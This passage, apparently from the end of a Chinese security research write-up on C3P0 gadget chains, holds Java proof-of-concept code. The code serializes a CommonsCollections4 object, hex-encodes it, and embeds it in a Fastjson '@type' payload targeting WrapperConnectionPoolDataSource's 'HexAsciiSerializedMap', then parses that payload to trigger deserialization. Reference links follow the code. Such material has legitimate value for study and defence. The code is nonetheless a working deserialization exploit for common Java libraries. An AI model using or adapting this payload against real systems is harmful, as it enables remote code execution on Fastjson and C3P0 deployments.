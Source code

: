 ```java

        PriorityQueue queue = CommonsCollections4();

        String filePath = "src/main/java/org/h3rmesk1t/C3P0/ser.bin";
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream(filePath));
        outputStream.writeObject(queue);
        outputStream.close();
        InputStream inputStream = new FileInputStream(filePath);
        byte[] bytes = toByteArray(inputStream);
        String hexString = bytesToHexString(bytes, bytes.length);
        
        String poc = "{\n\t\"@type\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n\t\"userOverridesAsString\": \"HexAsciiSerializedMap:" + hexString + ";\"\n}";
        System.out.println(poc);
        JSON.parseObject(poc);
    }
}
```

<div align=center><img src="./images/22.png"></div>


# 参考
 - [c3p0的三个gadget](http://redteam.today/2020/04/18/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget/)
 - [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)